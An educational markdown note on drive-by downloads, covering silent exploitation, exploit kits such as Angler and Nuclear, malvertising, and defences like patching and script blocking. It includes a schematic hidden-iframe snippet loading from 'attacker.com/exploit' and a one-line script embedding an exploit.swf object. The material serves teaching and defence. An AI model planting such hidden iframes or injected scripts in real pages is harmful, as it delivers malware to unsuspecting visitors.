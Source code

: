 

# 🔹 Drive-by Download

### **Definition**

A **drive-by download** happens when **just visiting a website** causes malicious code to be downloaded (and sometimes executed) on your system — **without your consent**.

---

## 🛠️ **How It Works**

There are two main flavors:

### 1. **Authorized but Deceptive Download**

* The site tricks you into clicking something (e.g., “You need this update to watch the video”).
* File is downloaded, and user executes it.
* *This requires some social engineering.*

### 2. **Silent Exploitation**

* You don’t click anything — simply **loading the page** is enough.
* Attackers embed hidden elements like:

  * **Hidden iFrames** → loads exploit code from attacker’s server.
  * **JavaScript / Flash / Java** → exploit browser or plugin vulnerabilities.
  * **Exploit Kits** (e.g., Angler, RIG, Nuclear) → test your system for known vulnerabilities and deliver the right exploit.
* Once an exploit succeeds, the payload (ransomware, trojan, etc.) is dropped and executed.

---

## 🔬 **Technical Tricks Used**

1. **Hidden iFrames**

   ```html
   <iframe src="http://attacker.com/exploit" style="display:none;"></iframe>
   ```

   Loads exploit code invisibly.

2. **Malicious JavaScript**

   ```js
   // obfuscated JS that triggers vulnerable plugin
   document.write("<object data='exploit.swf'></object>");
   ```

3. **Exploit Kits**

   * Act like “malware vending machines.”
   * Example workflow:

     * Check your **browser version**, **OS**, and **plugins**.
     * Pick an exploit you’re vulnerable to (e.g., Flash zero-day).
     * Deliver payload (ransomware, keylogger, etc.).

---

## 📜 **Famous Examples**

* **Angler EK (Exploit Kit)** → Spread ransomware like CryptoWall.
* **Nuclear EK** → Targeted Flash and IE vulnerabilities.
* **Blackhole EK** → Widely used in 2012–2013.
* **Malvertising campaigns** → Legit ads injected with iFrames pointing to exploit kits.

---

## 🛡️ **Defense Against Drive-by Downloads**

1. **Patch, Patch, Patch** → Keep browsers, plugins, and OS up to date.
2. **Remove risky plugins** (Flash, Java, Silverlight).
3. **Browser hardening**:

   * Use NoScript / uBlock Origin (blocks scripts/iFrames by default).
   * Use sandboxed browsers or VM for risky browsing.
4. **Security solutions**:

   * IDS/IPS to detect exploit kit traffic.
   * EDR with memory scanning (important for fileless attacks).
5. **Threat intelligence** → Block domains known for exploit kit activity.

---

## 🔑 Key Difference

Unlike phishing or droppers, drive-by downloads are dangerous because:

* **User interaction isn’t required.**
* Exploits are **automatic**.
* Often combined with **malvertising** to reach many victims.

